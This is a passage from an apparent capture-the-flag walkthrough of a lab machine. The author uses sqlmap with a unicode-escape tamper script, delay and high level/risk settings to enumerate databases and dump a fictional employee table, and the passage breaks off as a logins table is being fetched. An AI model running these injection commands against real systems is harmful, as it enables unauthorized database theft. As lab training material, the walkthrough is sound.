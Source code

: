 With that success, now I can run with `--dbs` to list the databases. There are five:

```

root@kali# sqlmap -r colleagues.request --tamper=charunicodeescape --delay 5 --level 5 --risk 3 --batch --proxy http://127.0.0.1:8080 --dbs
...[snip]...
[21:19:29] [INFO] fetching database names
available databases [5]:
[*] Hub_DB
[*] master
[*] model
[*] msdb
[*] tempdb

```

I could next list the tables, but I actually went the more “nuke it from space” route, and ran `--dump-all` and `--exclude-sysdbs`:

```

root@kali# sqlmap -r colleagues.request --tamper=charunicodeescape --delay 5 --level 5 --risk 3 --batch --proxy http://127.0.0.1:8080 --dump-all --exclude-sysdbs
...[snip]...
[18:51:58] [INFO] the back-end DBMS is Microsoft SQL Server
back-end DBMS: Microsoft SQL Server 2017                   
[18:51:58] [INFO] sqlmap will dump entries of all tables from all databases now
[18:51:58] [INFO] fetching database names                  
[18:52:08] [INFO] fetching tables for databases: Hub_DB, master, model, msdb, tempdb
[18:52:08] [INFO] skipping system database 'master'
[18:52:08] [INFO] skipping system database 'model'
[18:52:08] [INFO] skipping system database 'msdb'
[18:52:08] [INFO] skipping system database 'tempdb'
[18:52:08] [INFO] fetching columns for table 'Colleagues' in database 'Hub_DB'
[18:52:18] [INFO] fetching entries for table 'Colleagues' in database 'Hub_DB'
Database: Hub_DB                                           
Table: Colleagues                                          
[17 entries]                                               
+------+----------------------+-------------+----------------------+----------------------+
| id   | email                | image       | name                 | position             |
+------+----------------------+-------------+----------------------+----------------------+
| 1    | sbauer@megacorp.htb  | sbauer.jpg  | Sarina Bauer         | Junior Developer     |
| 2    | okent@megacorp.htb   | okent.jpg   | Octavia Kent         | Senior Consultant    |
| 3    | ckane@megacorp.htb   | ckane.jpg   | Christian Kane       | Assistant Manager    |
| 4    | kpage@megacorp.htb   | kpage.jpg   | Kimberly Page        | Financial Analyst    |
| 5    | shayna@megacorp.htb  | shayna.jpg  | Shayna Stafford      | HR Manager           |
| 6    | james@megacorp.htb   | james.jpg   | James Houston        | QA Lead              |
| 7    | cyork@megacorp.htb   | cyork.jpg   | Connor York          | Web Developer        |
| 8    | rmartin@megacorp.htb | rmartin.jpg | Reya Martin          | Tech Support         |
| 9    | zac@magacorp.htb     | zac.jpg     | Zac Curtis           | Junior Analyst       |
| 10   | jorden@megacorp.htb  | jorden.jpg  | Jorden Mclean        | Full-Stack Developer |
| 11   | alyx@megacorp.htb    | alyx.jpg    | Alyx Walters         | Automation Engineer  |
| 12   | ilee@megacorp.htb    | ilee.jpg    | Ian Lee              | Internal Auditor     |
| 13   | nbourne@megacorp.htb | nbourne.jpg | Nikola Bourne        | Head of Accounts     |
| 14   | zpowers@megacorp.htb | zpowers.jpg | Zachery Powers       | Credit Analyst       |
| 15   | aldom@megacorp.htb   | aldom.jpg   | Alessandro Dominguez | Senior Web Developer |
| 16   | minato@megacorp.htb  | minato.jpg  | MinatoTW             | CEO                  |
| 17   | egre55@megacorp.htb  | egre55.jpg  | egre55               | CEO                  |
+------+----------------------+-------------+----------------------+----------------------+

[18:52:23] [INFO] table 'Hub_DB.dbo.Colleagues' dumped to CSV file '/root/.sqlmap/output/10.10.10.179/dump/Hub_DB/Colleagues.csv'
[18:52:23] [INFO] fetching columns for table 'Logins' in database 'Hub_DB'
[18:52:33] [INFO] fetching entries for table 'Logins' in database 'Hub_DB'
```